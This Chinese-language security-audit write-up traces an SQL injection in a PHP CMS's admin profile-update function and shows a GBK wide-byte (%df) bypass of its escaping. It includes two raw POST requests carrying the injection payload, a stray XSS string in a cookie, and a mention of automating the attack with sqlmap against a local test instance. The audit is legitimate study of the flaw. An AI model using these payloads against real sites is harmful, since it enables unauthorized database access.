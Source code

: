 cms sql注入代码审计  
审计工具  
seasy源代码审计系统  
Phpstudy 8.1.1.2

审计步骤  
在cms中默认对输入的数据进行转义

通过对代码审计发现一处在对用户信息更新时未对字符进行严格过滤导致的sql注入  
在更新用户信息处直接获取输入的info数据带入数据库查询  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-0590a04c264b74151858e4bd3ffd89bbcf2cce59.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-0590a04c264b74151858e4bd3ffd89bbcf2cce59.png)  
在这里接着向上搜索看到调用的是admin\_model这个模型，继续查找该模型  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-418091525e53797ef15a6c726d7995f3e35bc629.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-418091525e53797ef15a6c726d7995f3e35bc629.png)  
找到admin\_model模型，其实例化一个类model。向上查找model类

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-d27d9c6ba44bc720ac5a725c307ba2c441df2cc5.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-d27d9c6ba44bc720ac5a725c307ba2c441df2cc5.png)

在model中定义了数据库的基本操作，找到我们需要的update方法，同样这一又调用了一个类。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-16d864b5ad81d1cc2cc711d9ab7fa62bb5d27e92.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-16d864b5ad81d1cc2cc711d9ab7fa62bb5d27e92.png)

在这里可以看到调用的是db\_factory类对数据库进行操作，继续跟踪该类。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1dc6509fa8620f16f67bcc75f5e3501e1cb243b4.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1dc6509fa8620f16f67bcc75f5e3501e1cb243b4.png)  
在db\_factory类中定义了数据库的相关信息以及加载了一个类mysql来对数据库的查询语句进行查询。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-b7ab656efe0131ec99c877d7735a051fd0052d9c.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-b7ab656efe0131ec99c877d7735a051fd0052d9c.png)  
找到mysql\_class类中，找到我们需要的update方法。在该方法中调用escape\_string对输入的数据进行过滤。向上搜索escape\_string方法。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-ac37231c81ae23096e02bcd90aff1d26c9fa57d3.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-ac37231c81ae23096e02bcd90aff1d26c9fa57d3.png)  
找到escape方法，发现对输入的数据没有做过滤操作。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-24b7cbb0bb0ca5bbc9358c280c516fdbafac6f4d.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-24b7cbb0bb0ca5bbc9358c280c516fdbafac6f4d.png)  
将返回的数据库查询语句带入execute进行查询。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-dbda6eb51a0f63026f1349b1723232df0fff1ff7.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-dbda6eb51a0f63026f1349b1723232df0fff1ff7.png)  
在这里可以看到存在注入，由于cms对输入自动默认转义，所以需要对转义进

注入实现  
行绕过即是用宽字节的方法吃掉转义符号\\，即是使用%df进行绕过。  
接下来本地搭建环境使用管理员进行登录  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1e8f38699d02915372b7a673ee275cae48b0151b.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1e8f38699d02915372b7a673ee275cae48b0151b.png)

提交修改数据，由于在邮箱处的数据在前端存在格式要求，于是进行抓包修改email的数据，在email的数据后面添加%df’ 使得查询语句成功报错。  
由于是后台注入，即是需要提供管理员的登录cookie  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1fc128eeb777cd83e8a5faa15408a6edcc3321d6.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1fc128eeb777cd83e8a5faa15408a6edcc3321d6.png)

于是去掉’将数据包写入POST.txt使用sqlmap进行工具自动化注入。

成功注入，获取到了当前的数据库名称phpcmsv9  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-46abe67d968b8235eb8c4aa46a777b0a0e7b95b4.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-46abe67d968b8235eb8c4aa46a777b0a0e7b95b4.png)

报错回显数据包  
POST /index.php?m=admin&amp;c=admin\_manage&amp;a=public\_edit\_info HTTP/1.1  
Host: 127.0.0.1:8093  
User-Agent: Mozilla/5.0 (X11; Linux x86\_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4464.5 Safari/537.36  
Accept: text/html,application/xhtml+x ml,application/x ml;q=0.9,image/webp,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 157  
Origin: <http://127.0.0.1:8093>  
Connection: close  
Referer: [http://127.0.0.1:8093/index.php?m=admin&amp;c=admin\_manage&amp;a=public\_edit\_info&amp;menuid=972&amp;pc\_hash=G9EuRQ](http://127.0.0.1:8093/index.php?m=admin&c=admin_manage&a=public_edit_info&menuid=972&pc_hash=G9EuRQ)  
Cookie: PHPSESSID=v0k1udcnitupj9d52qcjjiab74; yzmphp\_adminid=07ce0qT4pwrMxE0QioXhznmSqzn9xvX-wS6roZVM; yzmphp\_adminname=96f3fyXUcF4vbSOyFlmsmJJ8ZLOiYTC2PyrWgUSuLvZM7L0; yzmphp**userid=95d1JBGLHsq7c\_H5MnQCOKOq0aF9Qsx6J2fom0Zu; yzmphp\_\_username=723bYEGbfwpBAAUrcunS5jJfVjXmidic2APVLMMijCPC\_w; yzmphp**groupid=0bfe4XTEl4nS-XVAQr92HsD\_5dTTBuftMjucTvPF; yzmphp**nickname=ef75MiizaYw-1pOtVKekYUGWSdQVtlCPPu9gvomBbsxMnQ; TffoQ\_siteid=333erUtfR7Fe5Jw28wZJETYBElboNmp1ET0UFRpd; TffoQ\_admin\_email=2d34ilHVoG\_P9QUdQNq8FvZ4pqgJDuaull1SYafs0eTQC1quNmRA; TffoQ\_sys\_lang=98dcWC54M\_XkuMYkIEFf5NWMjbi-\_1gMJ21AHPTIh6rI3Q; TffoQ\_module=d88146WmoR4F0Tv\_hzGkNaAxC-GlinO1sIu8pJ2Us0mpGDhk; TffoQ\_catid=cb92ksUsFPQ8RwENCVgtODGrZdbqAtEKD7mAZctF; treeview-black=0; sYQDUGqqzHsearch\_history=%26quot%26gt%3B%26lt%3BIMG%20SRC%3DA%20o nerror%3Da lert%28/xs/%29%26gt%3B%26lt%3B%26quot%7C1%2C1%7C1%2C%26quot%7C1; TffoQ\_admin\_username=ae3czGm1cWj9M9syw3EdExmONEZuP8cifNhQx22kLeVezks; TffoQ\_userid=bb58JlspltYeM05GfmUeeBAOOobm3ebDNML-ut-6; oGHAM\_siteid=a4d1a9zqsKRzNCgWRMu9wUSyrPkbjpRAuCJZ-**h; oGHAM\_admin\_email=9ac3BGQkprHXpx0ieYuguoeT7Hy3EjrfXbm8R8hup6Ecx073IRU; oGHAM\_sys\_lang=f1b12Ej8rfCmO-sJbOaCStoR0WjaNd91m0QjjuFZ7yIOMQ; VLmUN\_admin\_username=75284kMEhTsq7wjBD-l1l2kyiL75vi8ni6tCfdbuBOCZU48; VLmUN\_siteid=acc4rXwB3hHEcw-coAM-xYe2824cipgGyA6fE-dL; VLmUN\_userid=b5b3mf4bydL77FC34TTKRHFXcCZQi5r\_8xkohJ5l; VLmUN\_admin\_email=a60agMFhN7xqheohRH5nKCaqQ6bFId0jOwqb-hmQF-mbAg7gE5Y; VLmUN\_sys\_lang=8fa0qIbrI3bl3lgF6HJ4jVZsuDWJMW6Eok82-Incda4TrA; VOrQw\_admin\_username=5f934p\_CrF2\_PkwMpMfCodD3dvfbWPS7WwU4LYGEFStV-xc; VOrQw\_siteid=67ec\_Tu3aq37MeFwk3Kgan1FkgJnTKtShq34epex; VOrQw\_userid=a4fb7ZyRo25av3MLW4OEfvGlflYmTcipsJC4uunm; VOrQw\_admin\_email=a979\_GifxnWPS-KIS\_i0jqtSfmRv0TDSg79rQm7-GDHAh01pUt0; VOrQw\_sys\_lang=80dfQ-tsnMhqOcFTS\_kEPoP5uZU8iuO9p\_3C5gcmKEY30Q  
Upgrade-Insecure-Requests: 1  
X-Forwarded-For: 127.0.0.1

info%5Buserid%5D=1&amp;info%5Busername%5D=phpcms&amp;info%5Brealname%5D=123&amp;info%5Bemail%5D=12%4012.com%df'&amp;info%5Blang%5D=zh-cn&amp;dosubmit=%CC%E1%BD%BB&amp;pc\_hash=G9EuRQ

注入数据包

POST /index.php?m=admin&amp;c=admin\_manage&amp;a=public\_edit\_info HTTP/1.1  
Host: 127.0.0.1:8093  
User-Agent: Mozilla/5.0 (X11; Linux x86\_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4464.5 Safari/537.36  
Accept: text/html,application/xhtml+x ml,application/x ml;q=0.9,image/webp,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 157  
Origin: <http://127.0.0.1:8093>  
Connection: close  
Referer: [http://127.0.0.1:8093/index.php?m=admin&amp;c=admin\_manage&amp;a=public\_edit\_info&amp;menuid=972&amp;pc\_hash=G9EuRQ](http://127.0.0.1:8093/index.php?m=admin&c=admin_manage&a=public_edit_info&menuid=972&pc_hash=G9EuRQ)  
Cookie: PHPSESSID=v0k1udcnitupj9d52qcjjiab74; yzmphp\_adminid=07ce0qT4pwrMxE0QioXhznmSqzn9xvX-wS6roZVM; yzmphp\_adminname=96f3fyXUcF4vbSOyFlmsmJJ8ZLOiYTC2PyrWgUSuLvZM7L0; yzmphp**userid=95d1JBGLHsq7c\_H5MnQCOKOq0aF9Qsx6J2fom0Zu; yzmphp\_\_username=723bYEGbfwpBAAUrcunS5jJfVjXmidic2APVLMMijCPC\_w; yzmphp**groupid=0bfe4XTEl4nS-XVAQr92HsD\_5dTTBuftMjucTvPF; yzmphp**nickname=ef75MiizaYw-1pOtVKekYUGWSdQVtlCPPu9gvomBbsxMnQ; TffoQ\_siteid=333erUtfR7Fe5Jw28wZJETYBElboNmp1ET0UFRpd; TffoQ\_admin\_email=2d34ilHVoG\_P9QUdQNq8FvZ4pqgJDuaull1SYafs0eTQC1quNmRA; TffoQ\_sys\_lang=98dcWC54M\_XkuMYkIEFf5NWMjbi-\_1gMJ21AHPTIh6rI3Q; TffoQ\_module=d88146WmoR4F0Tv\_hzGkNaAxC-GlinO1sIu8pJ2Us0mpGDhk; TffoQ\_catid=cb92ksUsFPQ8RwENCVgtODGrZdbqAtEKD7mAZctF; treeview-black=0; sYQDUGqqzHsearch\_history=%26quot%26gt%3B%26lt%3BIMG%20SRC%3DA%20o nerror%3Da lert%28/xs/%29%26gt%3B%26lt%3B%26quot%7C1%2C1%7C1%2C%26quot%7C1; TffoQ\_admin\_username=ae3czGm1cWj9M9syw3EdExmONEZuP8cifNhQx22kLeVezks; TffoQ\_userid=bb58JlspltYeM05GfmUeeBAOOobm3ebDNML-ut-6; oGHAM\_siteid=a4d1a9zqsKRzNCgWRMu9wUSyrPkbjpRAuCJZ-**h; oGHAM\_admin\_email=9ac3BGQkprHXpx0ieYuguoeT7Hy3EjrfXbm8R8hup6Ecx073IRU; oGHAM\_sys\_lang=f1b12Ej8rfCmO-sJbOaCStoR0WjaNd91m0QjjuFZ7yIOMQ; VLmUN\_admin\_username=75284kMEhTsq7wjBD-l1l2kyiL75vi8ni6tCfdbuBOCZU48; VLmUN\_siteid=acc4rXwB3hHEcw-coAM-xYe2824cipgGyA6fE-dL; VLmUN\_userid=b5b3mf4bydL77FC34TTKRHFXcCZQi5r\_8xkohJ5l; VLmUN\_admin\_email=a60agMFhN7xqheohRH5nKCaqQ6bFId0jOwqb-hmQF-mbAg7gE5Y; VLmUN\_sys\_lang=8fa0qIbrI3bl3lgF6HJ4jVZsuDWJMW6Eok82-Incda4TrA; VOrQw\_admin\_username=5f934p\_CrF2\_PkwMpMfCodD3dvfbWPS7WwU4LYGEFStV-xc; VOrQw\_siteid=67ec\_Tu3aq37MeFwk3Kgan1FkgJnTKtShq34epex; VOrQw\_userid=a4fb7ZyRo25av3MLW4OEfvGlflYmTcipsJC4uunm; VOrQw\_admin\_email=a979\_GifxnWPS-KIS\_i0jqtSfmRv0TDSg79rQm7-GDHAh01pUt0; VOrQw\_sys\_lang=80dfQ-tsnMhqOcFTS\_kEPoP5uZU8iuO9p\_3C5gcmKEY30Q  
Upgrade-Insecure-Requests: 1  
X-Forwarded-For: 127.0.0.1

info%5Buserid%5D=1&amp;info%5Busername%5D=phpcms&amp;info%5Brealname%5D=123&amp;info%5Bemail%5D=12%4012.com%df&amp;info%5Blang%5D=zh-cn&amp;dosubmit=%CC%E1%BD%BB&amp;pc\_hash=G9EuRQ